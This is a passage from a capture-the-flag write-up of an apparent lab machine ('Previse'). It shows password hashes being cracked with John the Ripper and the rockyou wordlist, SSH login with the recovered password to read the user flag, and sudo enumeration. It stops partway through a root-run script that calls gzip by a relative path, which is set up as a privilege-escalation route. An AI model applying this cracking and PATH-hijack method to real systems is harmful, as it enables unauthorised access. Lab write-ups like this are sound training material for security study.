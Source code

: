 We run john on the hashes (keep the unicode salt character in the salt value)
with the rockyou dictionary and got the `m4lwhere` user password.


    :::text
    $ john -w=rockyou.txt hash --format=md5crypt-long
    --------------------------------------------------------------------------
    Loaded 3 password hashes with no different salts (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    123456           (?)
    12345            (?)
    2g 0:00:00:51 6.65% (ETA: 15:36:49) 0.03919g/s 21235p/s 21235c/s 21238C/s 438700..4358427
    2g 0:00:02:09 18.48% (ETA: 15:35:40) 0.01550g/s 22220p/s 22220c/s 22221C/s vixieskathys109..vixen911
    ilovecody112235! (?)
    3g 0:00:06:35 DONE (2021-08-28 15:30) 0.007588g/s 18752p/s 18752c/s 18752C/s ilovecoke95..ilovecody*
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed


We use this password to connect on the SSH service and get the user flag.

    :::text
    └─$ ssh m4lwhere@10.129.193.153 #ilovecody112235!
    m4lwhere@previse:~$ id
    uid=1000(m4lwhere) gid=1000(m4lwhere) groups=1000(m4lwhere)
    m4lwhere@previse:~$ cat user.txt
    15af390166c631f24622d77948ba2444


# Root

We look at our `sudo` privileges and found that we can run a bash script as
root.

    :::text
    m4lwhere@previse:~$ sudo -l
    [sudo] password for m4lwhere:
    User m4lwhere may run the following commands on previse:
        (root) /opt/scripts/access_backup.sh

Looking at the script we quickly notice the use of a relative path to call the
`gzip` binary we should be able to easily run anything.

    :::text
    m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
    #!/bin/bash

    # We always make sure to store logs, we take security SERIOUSLY here
